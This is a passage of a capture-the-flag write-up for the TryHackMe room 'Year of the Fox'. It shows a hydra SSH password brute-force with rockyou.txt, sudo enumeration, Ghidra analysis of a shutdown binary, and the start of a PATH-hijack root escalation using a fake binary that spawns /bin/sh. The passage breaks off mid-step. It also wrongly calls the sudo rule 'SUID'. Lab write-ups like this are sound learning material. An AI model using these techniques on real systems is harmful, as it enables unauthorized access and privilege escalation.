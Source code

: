 On our machine -

```
hydra -l fox -P ~/rockyou.txt ssh://10.10.95.190:8000
```

<img width="1853" height="314" alt="Screenshot From 2025-09-17 19-47-06" src="https://github.com/user-attachments/assets/2fea0004-d188-4b66-b9bb-bb234607c2fb" />



```
ssh fox@10.10.95.190 -p 8000
```

<img width="895" height="343" alt="Screenshot From 2025-09-17 19-50-29" src="https://github.com/user-attachments/assets/1c09b5b7-88d8-4765-a955-4704e8f98b83" />


Cool! we got the access as fox an0d so the user flag.

### Shell as root

Let's check which binary has SUID set so we can exploit it to esclate over privilges to root - 

```
sudo -l
```

Output :

```
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

On `/usr/sbin/shutdown` SUID is set so transfer it our machine using python server,

```bash
kris3c@0x4B1T-ubuntu:~/Main/TryHackMe/year-of-the-fox$ file shutdown

shutdown: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c855d329bb81903275997549d0856f9fcb1d40fd, not stripped
```

Opening it in ghidra and looking at the decompiler :

<img width="1004" height="343" alt="Screenshot From 2025-09-17 21-35-53" src="https://github.com/user-attachments/assets/0436a60d-5add-496f-a6aa-47938d00f94c" />

The binary is simpy calling the system function to execute the poweroff binary but thing to note here is it does not use the absolute path and if we look at the `sudo -l` ouput we can see that it does not uses `secure_path` to specify where to look the binary. 

How we can exploit this ? 

The steps are easy to follow -

1. Adding our own shutdown binary in /tmp/ with content :
	-  ```
	   #!/bin/bash
	   /bin/sh
	   ```
	  